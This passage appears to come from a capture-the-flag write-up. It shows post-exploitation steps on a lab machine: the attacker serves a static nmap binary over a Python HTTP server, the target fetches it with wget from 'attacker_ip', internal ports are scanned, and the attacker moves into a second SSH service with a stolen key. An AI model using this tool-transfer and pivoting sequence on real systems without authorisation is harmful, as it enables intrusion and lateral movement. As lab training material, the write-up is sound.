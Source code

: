 ### nmap scan

Uploading the binary:
1) Download the [binary](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap)
2) cd into the directory with the nmap binary and setup a Python http server
```
Attacker Machine:
python3 -m http.server 8080
```
3) Download the binary
```
Target Machine:
wget http://attacker_ip:8080/nmap
```
4) Run nmap
```
chmod 700 nmap
./nmap localhost -p-
```

That gives u some results
```
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00016s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
631/tcp   open  ipp
2222/tcp  open  unknown
36445/tcp open  unknown

```

We know about http and SSH as we saw those earlier in the challenge. We SSHed into the box originally and used curl to access the HTTP server in challenge 24.

IPP is Internet Printing Protocol, this could potentially be a vulnerability but lets check the other ports first as we have SSH information.

Unfortunately we cannot nmap the ports to find out the service so we shall curl it.

```
curl localhost:2222
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
Protocol mismatch.
```

Lovely stuff, we now know it is an ssh port so we can SSH into it as robert

```
ssh robert@localhost -p 2222 -i id_rsa
```

## Robert -> Root (sorta)
